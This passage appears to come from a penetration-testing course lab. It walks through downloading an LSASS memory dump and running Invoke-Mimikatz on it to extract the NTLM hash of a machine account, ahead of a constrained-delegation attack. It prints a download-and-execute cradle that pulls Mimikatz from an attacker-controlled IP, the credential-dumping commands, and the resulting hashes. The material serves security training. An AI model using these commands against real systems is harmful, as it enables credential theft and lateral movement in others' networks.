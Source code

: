> Listing 36 - Downloading the LSASS dump file

Given that the LSASS dump file is almost 46 MB, the download can take some time through Meterpreter. Once it's downloaded, we'll upload it to the test machine along with Invoke-Mimikatz.

Next, we'll run sekurlsa::minidump to specify the dump file followed by sekurlsa::logonpasswords to dump passwords and hashes for all logged on users.

```
PS C:\Tools> wget -Uri http://192.168.119.120/lsass.dmp -OutFile C:\tools\lsass.dmp

PS C:\Tools> (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/mimikatz.txt') | IEX

PS C:\Tools> Invoke-Mimikatz -Command "`"sekurlsa::minidump c:\tools\lsass.dmp`" sekurlsa::logonpasswords"
Hostname: Test / S-1-5-21-3167539577-2907730259-3891639048

  .#####.   mimikatz 2.2.0 (x64) #19041 May 20 2020 14:57:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::minidump c:\tools\lsass.dmp
Switch to MINIDUMP : 'c:\tools\lsass.dmp'

mimikatz(powershell) # sekurlsa::logonpasswords
Opening : 'c:\tools\lsass.dmp' file for minidump...

...

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : WEB01$
Domain            : EVIL
Logon Server      : (null)
Logon Time        : 6/24/2020 2:01:32 AM
SID               : S-1-5-20
        msv :
         [00000003] Primary
         * Username : WEB01$
         * Domain   : EVIL
         * NTLM     : 12343649cc8ce713962859a2934b8cbb
         * SHA1     : f6903726e098755116c9eb87263d213cd76a17a8
....
```

> Listing 37 - Obtaining NTLM hash from LSASS dump

Finally, we have captured the NTLM hash for the machine account of web01. Nice!

We're now armed to exploit the configured constrained delegation to file01. We'll explore this in the next section.
